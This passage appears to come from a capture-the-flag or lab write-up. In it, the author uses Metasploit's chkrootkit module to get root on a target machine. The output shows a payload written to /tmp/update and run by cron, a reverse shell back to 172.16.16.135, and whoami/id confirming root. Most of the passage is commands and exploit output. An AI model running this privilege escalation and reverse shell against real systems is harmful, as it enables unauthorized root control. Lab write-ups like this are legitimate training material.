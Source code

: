 ```
msf exploit(chkrootkit) > set lport 8080
lport => 8080
```

After configuration I fired it. I thought it would take ages but for my surprise in less than 1 minute I had a shell with root privileges:

```
msf exploit(chkrootkit) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP double handler on 172.16.16.135:8080 
msf exploit(chkrootkit) > [!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo obQIOKs74vEBRALo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "obQIOKs74vEBRALo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.16.135:8080 -> 172.16.16.141:52767) at 2016-05-31 12:20:02 -0400
[+] Deleted /tmp/update

msf exploit(chkrootkit) > sessions -l

Active sessions
===============

  Id  Type         Information                                             Connection
  --  ----         -----------                                             ----------
  1   shell linux  /bin/sh: 0: can't access tty; job control turned off $  172.16.16.135:443 -> 172.16.16.141:58710 (172.16.16.141)
  2   shell unix                                                           172.16.16.135:8080 -> 172.16.16.141:52767 (172.16.16.141)

msf exploit(chkrootkit) > 

msf exploit(chkrootkit) > sessions -i 2
[*] Starting interaction with 2...

3496852246
UMIJMPiiuUOWmlFUvBgnxkpegmGiTbQo
true
HWACGRhBkSvKDWkWvrRpYRerAUGWGfZe
mJZoPVQsqQjzWzwCwFoOYzvQeKYjHRjA
gqdsrCEinRXfzYgSRvtdEQvQLiOgimSR

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
